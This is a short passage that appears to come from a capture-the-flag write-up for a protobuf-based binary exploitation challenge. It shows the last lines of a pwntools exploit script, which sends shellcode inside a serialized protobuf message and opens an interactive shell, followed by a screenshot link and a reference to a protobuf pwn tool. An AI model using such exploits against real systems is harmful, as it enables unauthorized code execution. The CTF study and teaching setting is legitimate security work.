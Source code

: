 ```python
    success(f'Sending shellcode len({shellcode}) = {len(shellcode):#x}')
    t.sendafter(b'your giao', message.SerializeToString())

    t.clean()
    t.interactive()
    t.close()
```

![shell](assets/local_shell.png)

## 参考

1. [Rea1Atomic/protobuf-pwn-tool](https://github.com/Rea1Atomic/protobuf-pwn-tool)
